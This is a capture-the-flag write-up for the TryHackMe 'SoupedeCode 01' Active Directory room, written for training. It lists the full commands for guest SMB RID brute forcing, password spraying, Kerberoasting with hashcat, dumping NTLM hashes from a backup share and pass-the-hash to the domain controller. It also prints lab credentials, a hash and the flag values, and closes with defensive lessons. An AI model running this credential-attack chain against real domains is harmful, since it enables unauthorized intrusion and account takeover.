# NULLSECURE - FROM NULL TO ROOT

🎥 **Video Walkthrough:** https://youtu.be/Bc1J7oUm1qA

---

## 1. Overview

| | |
|---|---|
| **Room** | SoupedeCode 01 |
| **Platform** | TryHackMe |
| **Difficulty** | Easy |
| **Category** | Active Directory / Red Team |
| **Room Link** | https://tryhackme.com/room/soupedecode01 |
| **Domain** | SOUPEDECODE.LOCAL |
| **Domain Controller** | DC01.SOUPEDECODE.LOCAL |

SoupedeCode 01 is a beginner-friendly Active Directory box that chains together several classic AD misconfigurations into a full domain compromise: anonymous SMB enumeration, a weak password policy, Kerberoasting, and NTLM hash reuse from an exposed backup file. No exploit code is required — every step relies on built-in SMB/Kerberos behavior and credential hygiene failures.

**Tools used:** RustScan, NetExec (nxc), smbclient, smbmap, Impacket (`GetUserSPNs.py`, `smbclient.py`), Hashcat, grep/awk.

---

## 2. Recon

Started with a full RustScan sweep (all ports, service/version detection handed off to nmap):

```bash
rustscan -a spc --ulimit 5000 -- -sC -sV
```

The open ports matched a typical Windows Domain Controller (Kerberos, LDAP, SMB, RPC). To make later Kerberos/SMB operations resolve correctly, the DC's hostname and domain were mapped in `/etc/hosts`:

```bash
sudo nvim /etc/hosts
```
```
<ip>   SOUPEDECODE.LOCAL DC01.SOUPEDECODE.LOCAL spc
```



---

## 3. Vulnerability Identification

Several misconfigurations stacked up to make this box fall:

- **SMB Guest fallback enabled** — any username (even a typo like `geust`) combined with a blank password authenticates via the Guest account. This confirms anonymous/guest access isn't restricted on the DC.
- **RID cycling allowed over the Guest session** — the DC lets an unauthenticated/guest session walk the full SID range, dumping every domain user and computer account.
- **Weak password policy** — at least one account uses its own username as its password (`ybob317:ybob317`), a classic sign of no breached/weak-password protection.
- **Kerberoastable service account** — once authenticated as any domain user, any SPN-registered account's TGS ticket can be requested and cracked offline if its password is weak.
- **Backup share leaking credential material** — a low-privilege service account has read access to a `backup` share containing what looks like a raw `secretsdump`-style dump (`username:RID:LM:NTLM:::`), exposing NTLM hashes for domain and machine accounts.
- **NTLM hash reuse** — one hash from that stale backup still matches the *live* machine account `FileServer$`, enabling pass-the-hash straight to the DC with high privileges.

---

## 4. Exploitation

### 4.1 — Guest SMB access & RID brute force

```bash
nxc smb spc -u 'geust' -p ''
```

The server accepted the bogus `geust` username with an empty password as a Guest session — proof guest logon is enabled for effectively any credentials. That session is enough to RID-brute the domain:

```bash
nxc smb spc -u 'geust' -p '' --rid-brute > users.txt
```



```bash
cat users.txt
```



### 4.2 — Extracting usernames

Filtered the RID dump down to real user accounts (`SidTypeUser`), dropping machine accounts (`$`):

```bash
grep -oP '(?<=\\)[^\\$]+(?=\s+\(SidTypeUser\))' users.txt > usersnames.txt
# or
awk -F'\\\\| \\(' '/SidTypeUser/ && !/\$/ {print $2}' users.txt > usersnames.txt
```



```bash
cat usernames.txt
```



> Filenames drifted slightly between commands during the session (`usersnames.txt` → `usernames.txt` → `usernames1.txt` below) — worth cleaning up to one consistent name before re-running this chain yourself.

### 4.3 — Password spray (username = password)

Sprayed every enumerated username against itself as a password:

```bash
nxc smb spc -u usernames1.txt -p usernames1.txt --no-bruteforce --continue-on-success
```

`--no-bruteforce` pairs each username with the password on the same line instead of trying every combination, and `--continue-on-success` keeps spraying after a hit lands. This turned up valid creds:

> **Found:** `ybob317:ybob317`



### 4.4 — SMB share access & user flag

```bash
nxc smb spc -u ybob317 -p ybob317
nxc smb spc -u ybob317 -p ybob317 --shares
smbmap -H spc -u 'ybob317' -p 'ybob317' -r
```



```bash
smbclient //spc/Users -U ybob317
cd ybob317
cd Desktop
get user.txt
cat user.txt
```

**user.txt:** `28189316c25dd3c0ad56d44d000d62a8`



---

## 5. Post-Exploitation

### 5.1 — Kerberoasting

With valid domain creds in hand, requested TGS tickets for every SPN-registered account:

```bash
impacket-GetUserSPNs 'soupedecode.local/ybob317:ybob317' -dc-ip spc -request -outputfile spns.txt
```



Cracked the resulting `$krb5tgs$` hash offline against rockyou:

```bash
hashcat -m 13100 spns.txt /usr/share/wordlists/rockyou.txt
```

> **Cracked:** `file_svc:Password123!!`



### 5.2 — Reaching the backup share

```bash
nxc smb spc -u 'file_svc' -p 'Password123!!' --shares
```

`file_svc` has read access to a `backup` share.



```bash
smbclient //spc/backup -U file_svc
get backup_extract.txt
```



```bash
nvim backup_extract.txt
```

The file is a raw hash-dump style export — `username:RID:LM:NTLM:::` per line.



### 5.3 — Parsing the dump

```bash
awk -F':' '{print $1 > "usersbak.txt"; print $4 > "ntlm.txt"}' backup_extract.txt
```

```bash
cat usersbak.txt
```



```bash
cat ntlm.txt
```



> Strip the trailing `$` from machine-account names in `usersbak.txt` before spraying — otherwise those lines won't match correctly.

---

## 6. Privilege Escalation

Sprayed the backup's username/NTLM pairs against SMB:

```bash
nxc smb spc -u usersbak.txt -p ntlm.txt --no-bruteforce --continue-on-success
```

One of the stale backup hashes still matches a *live* machine account — `FileServer$`.



Used that hash directly for pass-the-hash authentication, no cracking needed:

```bash
impacket-smbclient 'soupedecode.local/FileServer$@spc' -hashes :e41da7e79a4c76dbd9cf79d1cb325559
```



From there, `FileServer$` has access to `C$` and the Administrator's desktop:

```
shares
use C$
ls
cd Users\Administrator\Desktop
ls
cat root.txt
```

**root.txt:** `27cb2be302c388d63d27c86bfdd5f56a`



---

## 7. Conclusion

SoupedeCode 01 is a good illustration of how a handful of individually "low severity" AD misconfigurations compound into a full domain compromise:

- Guest/anonymous SMB access should be disabled — it's what made RID cycling possible in the first place.
- A password policy that allows username=password combinations is trivially sprayed; breached-password screening would have blocked it.
- Kerberoastable service accounts need long, random passwords (or a gMSA where possible) — this remains one of the most reliable foothold-to-service-account paths in AD.
- Backup files *are* credential material. A `backup` share holding a plaintext hash dump, readable by a low-privilege service account, is just as dangerous as exposing `ntds.dit` directly.
- NTLM hashes don't expire on their own — a hash captured in an old backup was still valid against a live machine account. Regular credential rotation (and disabling NTLM where Kerberos can be enforced) would have closed this path.

---

## 8. Attack Chain Summary

1. `rustscan` identifies the DC → map hostname/domain in `/etc/hosts`
2. SMB Guest fallback accepted with a blank password (any username)
3. RID brute force over the Guest session dumps all domain users
4. Filter the dump down to real user accounts
5. Username=password spray → valid creds for `ybob317`
6. SMB access as `ybob317` → `user.txt`
7. Kerberoast an SPN account → crack with hashcat → `file_svc:Password123!!`
8. `file_svc` can read the `backup` share → download a stale hash dump
9. Parse the dump into usernames + NTLM hashes
10. Hash spray → live hash still valid for machine account `FileServer$`
11. Pass-the-hash as `FileServer$` → `C$` access on the DC
12. `Administrator\Desktop\root.txt` → full compromise

---

This walkthrough was completed on TryHackMe (soupedecode01) in an authorized lab environment, for educational and research purposes only.

**A1GCH ⚔ NullSecure**
